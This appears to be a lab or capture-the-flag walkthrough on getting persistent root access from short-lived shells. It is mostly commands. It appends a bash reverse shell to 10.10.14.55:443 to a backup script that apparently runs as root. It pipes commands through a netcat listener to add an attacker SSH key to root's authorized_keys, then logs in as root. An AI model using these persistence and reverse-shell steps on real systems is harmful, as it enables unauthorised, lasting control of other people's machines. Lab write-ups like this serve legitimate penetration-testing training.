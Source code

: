 ## Exploiting Short-Lived Shells for Persistent Access

### Introduction
In this scenario, we leverage short-lived shells to establish persistent access on a target system. We utilize a combination of techniques, including modifying scripts and employing netcat listeners, to achieve our objective.

### Setting Up Initial Access
To initiate the process, we start a simple HTTP server and monitor ICMP traffic on a specified network interface.

```bash
python -m http.server 80
sudo tcpdump -ni tun0 icmp
```

### Locating Relevant Services
We search for specific systemd services related to backup operations on the target system.

```bash
find /etc/systemd/ -name timer_backup.service
find /etc/systemd/ -name web_backup.service
```
## Gaining root access

``` 
echo -e '\nbash -i >& /dev/tcp/10.10.14.55/443 0>&1' >> /usr/bin/timer_backup.sh
```

### Scripting Commands for Short-Lived Shells
In scenarios where only short-lived shells are available, we script commands to run on the shell and echo them into a netcat listener.

**On our machine**
```bash
echo 'mkdir -p /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys' | sudo nc -lnvp 443
```

### Establishing Persistent Access
By executing the scripted commands through the netcat listener, we create the necessary directory and add an SSH public key to the authorized_keys file, ensuring persistent access.

```bash
echo -e '\nmkdir -p /root/.ssh\necho "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys'  >> /usr/bin/timer_backup.sh
```

```bash
mkdir -p /root/.ssh
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys
```

```bash
echo 'mkdir -p /root/.ssh && echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58Q
vP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys' | sudo nc -lnvp 443
```

### Verifying Access
Upon successful execution, we can verify persistent access by connecting to the target system via SSH using the provided SSH key.

```bash
ssh -i ~/keys/ed25519_gen root@10.10.10.214
```

### Conclusion
Utilizing a combination of scripting techniques and netcat listeners, we successfully establish persistent access on the target system, demonstrating the effectiveness of exploiting short-lived shells for maintaining access.
